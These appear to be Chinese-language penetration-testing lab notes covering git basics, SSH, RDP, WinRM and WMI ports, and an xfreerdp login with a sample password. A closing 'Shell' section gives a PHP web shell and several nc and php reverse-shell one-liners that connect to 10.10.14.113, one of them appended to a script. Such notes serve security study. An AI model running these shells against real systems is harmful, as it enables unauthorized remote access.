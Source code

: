 git push：

```bash
cd /path/to/your/notes
git init

git remote add origin <your_remote_repository_url>

git add .
git commit -m "Initial commit with notes"
git push -u origin master

git add .
git commit -m "Your commit message"
git push origin master
```

## 1.11 SSH

```
 2016 年 OpenSSH 7.2p1 版本中的命令注入漏洞
 sed -r '/^\s*$/d' 含义是删除空白行，/^\s*$/d这个是匹配完全为空白的行
 grep -v "#" 含义是排除掉注释行
```

工具git clone https://github.com/jtesta/ssh-audit.git && cd ssh-audit

Rsync允许通过SSH进行安全的数据传输，默认端口是873

r-services，比如rcp、rexec、rsh等。默认端口是512，513，514，一些内网的机器可能会有。

## 1.12 RDP

可以通过多种方式进行身份验证和连接到此类 RDP 服务器。例如，我们可以使用 `xfreerdp`、`rdesktop` 或 `Remmina` 连接到 Linux 上的 RDP 服务器，并相应地与服务器的 GUI 进行交互。

```
xfreerdp /u:cry0l1t3 /p:"P455w0rd!" /v:10.129.201.248
```

WinRM 依靠 `TCP` 端口 `5985` 和 `5986` 进行通信，最后一个端口 `5986 使用 HTTPS`

WMI 通信的初始化始终在 `TCP` 端口 `135` 上进行，成功建立连接后，通信将移动到随机端口。

# 二、Shell

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.113 9443 >/tmp/f"); ?>
```

```shell-session
gobuster dir -u http://10.129.73.163/ --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
curl http://10.129.91.93/nibbleblog/README
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.113 8443 >/tmp/f' | tee -a monitor.sh /usr/bin/php
python3 -c 'import pty; pty.spawn("/bin/bash")'
sudo php -r '$sock=fsockopen("10.10.14.113",8443);exec("/bin/sh -i <&3 >&3 2>&3");'
```
